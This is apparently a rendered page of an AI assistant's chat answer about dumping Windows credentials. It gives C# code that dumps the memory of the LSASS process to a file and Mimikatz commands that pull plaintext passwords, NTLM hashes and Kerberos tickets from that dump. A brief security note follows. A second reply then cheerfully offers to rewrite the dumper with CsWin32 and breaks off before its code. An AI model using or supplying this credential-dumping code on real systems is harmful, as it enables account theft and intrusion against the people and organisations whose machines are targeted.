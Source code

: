 ```csharp
    {
        Process[] processes = Process.GetProcessesByName("lsass");
        if (processes.Length > 0)
        {
            Process lsass = processes[0];
            string dumpFile = Path.Combine("C:\\Windows\\Temp", "lsass.dmp");

            using (FileStream fs = new FileStream(dumpFile, FileMode.Create, FileAccess.Write, FileShare.None))
            {
                bool success = MiniDumpWriteDump(lsass.Handle, (uint)lsass.Id, fs.SafeFileHandle.DangerousGetHandle(), MINIDUMP_TYPE.MiniDumpWithFullMemory, IntPtr.Zero, IntPtr.Zero, IntPtr.Zero);
                Console.WriteLine(success ? "Dump successful" : "Dump failed");
            }
        }
    }
}
```

- **Explanation**:
  - This C# code works similarly to the C example, locating `lsass.exe` and dumping its memory using `MiniDumpWriteDump`.

### **Reading the Dump Offline with Mimikatz**

Once you have the `lsass.dmp` file, you can analyze it offline using Mimikatz to extract credentials:

1. **Load the Dump into Mimikatz**:

   ```cmd
   mimikatz # sekurlsa::minidump lsass.dmp
   ```

2. **Extract Credentials**:

   ```cmd
   mimikatz # sekurlsa::logonpasswords
   ```

This command will list the credentials stored in the memory dump, including plaintext passwords, NTLM hashes, and Kerberos tickets.

### **Security Considerations**

Dumping the LSASS process is a powerful but risky operation, as it can trigger security alerts (e.g., from Windows Defender or third-party AV software) and may require administrative privileges. It's important to secure your systems against such attacks by using measures like Credential Guard, disabling unnecessary admin rights, and monitoring for suspicious activity.

Certainly! You can use the CsWin32 library to generate P/Invoke signatures instead of manually writing the `DllImport` attributes. CsWin32 can automatically generate these interop signatures based on Windows API metadata.

Below is the C# code rewritten to use CsWin32 for calling the `MiniDumpWriteDump` function:

